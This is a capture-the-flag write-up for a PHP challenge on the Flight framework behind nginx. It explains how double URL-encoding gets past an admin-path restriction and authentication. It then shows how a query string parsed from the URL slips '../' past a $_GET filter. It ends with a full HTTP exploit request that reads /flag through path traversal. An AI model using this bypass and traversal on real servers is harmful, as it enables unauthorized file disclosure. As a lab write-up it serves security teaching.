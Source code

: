 # EasyPHP

## How to Setup Environment

`cd docker && docker-compose up -d`

## Write Up

After read index.php we can know that 

1. Admin can read file
2. Every route need authentication except login in `$request->url`
3.  `../` in `$_GET`,`$_POST`,`$_COOKIE`,`$_SESSION`  is not allowed

Read nginx.conf we know that

1. url contains admin only can be accessed by 127.0.0.1
2. `REQUEST_URI` come from `$uri`, `$uri` is not URL decoded. php-fpm receive `$uri` and will urldecode it .

### Bypass Authentication

Our goal is obviously to bypass authentication to read file, but within above message we can't do that.

So we need to read the flight framework.

In routing code we can find a interesting thing that it will pass a urldecoded url to route function.

`$url_decoded = urldecode( $request->url );`

So we can bypass authentication by visit url path like `/%2561%2564%256d%2569%256e%3flogin=123`


### Bypass `../` limitation

But flag is in / ,so we need to bypass `../` limitation.

The file to read come from `"./".$request->query->data`

But `../` limitation is working in `$_GET`, they may have some little difference.

Read about how `$request->query` is built.

It is first assigned value by the following code:

```php
'query' => new Collection($_GET)

class Collection{
    public function __construct(array $data = array()) {
        $this->data = $data;
    }   
}
```

But in init function overwrite query by

```php


    public function init(){
        ...
        // Default url
        if (empty($this->url)) {
            $this->url = '/';
        }
        // Merge URL query parameters with $_GET
        else {
            $_GET += self::parseQuery($this->url);

            $this->query->setData($_GET);
        }
        ...
    }
    public static function parseQuery($url) {
        $params = array();

        $args = parse_url($url);
        if (isset($args['query'])) {
            parse_str($args['query'], $params);
        }

        return $params;
    }

```

So it's time to bypass the limitation of `../`

### Exploit

```
GET /%2561%2564%256d%2569%256e%3flogin=123%26data=..%252f..%252f..%252f..%252fflag HTTP/1.1
Host: 127.0.0.1:60080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

